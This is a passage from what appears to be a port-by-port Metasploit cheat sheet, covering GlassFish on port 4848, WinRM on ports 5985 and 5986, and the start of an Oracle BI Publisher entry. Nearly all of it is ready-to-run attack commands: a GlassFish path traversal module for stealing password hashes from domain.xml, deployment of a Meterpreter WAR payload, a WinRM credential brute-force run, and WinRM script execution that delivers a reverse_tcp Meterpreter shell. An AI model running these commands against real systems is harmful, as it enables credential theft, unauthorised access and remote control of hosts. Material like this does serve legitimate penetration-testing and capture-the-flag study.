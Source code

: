 ### Exploit: GlassFish Traversal (CVE-2017-1000028)
```bash
use auxiliary/scanner/http/glassfish_traversal
set RHOSTS [IP]
set RPORT 4848
```
**Purpose**: Reads sensitive files like domain.xml to steal password hashes.

### Meterpreter Tip:
After gaining admin access, deploy WAR payload:
```bash
use exploit/multi/http/glassfish_deployer
set RHOST [IP]
set RPORT 4848
set USERNAME admin
set PASSWORD [password]
set WAR_FILE /path/to/meterpreter.war
```

---

## Port 5985, 5986 - WinRM
**Service**: Windows Remote Management  
**Common services**: Windows Remote Management, PowerShell Remoting

### Auxiliary: WinRM Login Scanner
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS [IP]
set RPORT 5985
set USERPASS_FILE /path/to/wordlist.txt
```
**Purpose**: Bruteforces WinRM credentials.

### Exploit: WinRM Script Execution
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOST [IP]
set RPORT 5985
set USERNAME [user]
set PASSWORD [password]
set PAYLOAD windows/meterpreter/reverse_tcp
```
**Purpose**: Uploads and executes payload using valid WinRM credentials.

---

## Port 7676 - Oracle BI Publisher
**Service**: Oracle Business Intelligence Publisher  
**Common services**: Oracle BI, Oracle Fusion Middleware
